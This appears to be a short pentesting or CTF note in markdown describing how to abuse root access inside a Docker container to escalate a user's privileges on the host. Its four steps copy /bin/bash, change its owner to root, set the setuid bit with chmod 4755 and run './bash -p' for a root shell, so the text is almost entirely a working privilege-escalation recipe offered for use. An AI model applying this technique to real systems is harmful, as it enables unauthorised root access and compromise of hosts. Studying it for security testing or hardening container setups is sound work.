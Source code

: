 # Abusing root privileges in a docker container

### STEPS

#### 1) 

    cp /bin/bash . (In a user ssh session) (That requires the ssh running internally of the container)

#### 2) 

    chown  root:root bash (In docker root shell)

#### 3) 

    chmod 4755 bash

#### 4) SSH back in, then execute bash for root 

    ./bash -p (user ssh session)
